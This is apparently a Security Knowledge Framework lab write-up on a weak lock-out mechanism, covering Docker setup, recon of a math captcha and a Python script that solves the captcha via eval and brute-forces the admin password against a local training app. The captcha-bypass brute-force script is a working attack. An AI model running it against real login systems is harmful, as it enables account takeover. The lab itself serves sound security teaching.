

# KBID xxx - Unreferenced-Files

## Running the app

```
$ sudo docker pull blabla1337/weak-lock-out-mechanism
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-lock-out-mechanism
```





Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

We need to test how the application is preventing brute force attacks. After we register a new user and we try to login we can see that the application is using a captcha to prevent brute force attacks.



If we try to login with a wrong password multiple times we can see that the application is only using a captcha to prevent brute force attacks.

## Exploitation

One of the most common username is "admin" and we can use a password dictionary or list to try to guess the password.

The application is using the endpoint `/login` to authenticate the user and it expects the following parameters: username, password and captcha like so:

```json
{
  "username": "admin",
  "password": "password",
  "captcha": "captcha"
}
```

When we fail to login the application makes a request to the endpoint `/captcha` to get a new captcha. The endpoint `/captcha` returns two numbers and an operator.

```json
{
  "number1": 1,
  "number2": 1,
  "operator": "+"
}
```

We can use the endpoint `/captcha` solve the captcha and login to the application using `/login` endpoint. But let's try to get the captcha from the HTML source code and brute force the login process.

```python
from urllib.request import urlopen
from requests import post
import re

url = "http://localhost:5000/login/"


def get_content_from_class(html, class_name):
    pattern = f'<div class="{class_name}">.*?</div>'
    match_results = re.search(pattern, html, re.IGNORECASE)
    content = match_results.group()
    content = re.sub("<.*?>", "", content)  # Remove HTML tags
    return content


def login(password):
    page = urlopen(url)

    if page.getcode() != 200:
        print("Error")
        return

    html_bytes = page.read()
    html = html_bytes.decode("utf-8")

    n1 = get_content_from_class(html, "n1")
    n2 = get_content_from_class(html, "n2")
    op = get_content_from_class(html, "op")

    captcha = eval(n1 + op + n2)

    login_body = {
        "username": "admin",
        "password": password,
        "captcha": captcha
    }

    res = post(url, json=login_body)
    return res.json()


with open("passwords.txt", "r") as f:
    passwords = f.readlines()
    # remove \n
    passwords = [password.strip() for password in passwords]
    # loop through passwords
    print("Trying passwords...")
    found = False
    for password in passwords:
        res = None
        while True:
            try:
                res = login(password)
            except:
                continue
            break
        if "message" in res:
            print("Password found: ", password)
            found = True
            break
    if not found:
        print("Password not found")
```

And we can see that the password is "qweasdzxc" one of the most common passwords.

> Note: We can just use the endpoint `/captcha` to solve the captcha and login to the application using `/login` endpoint. In this case we are getting the captcha information from the HTML source as an example.

## Additional sources

[owasp.org | Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)
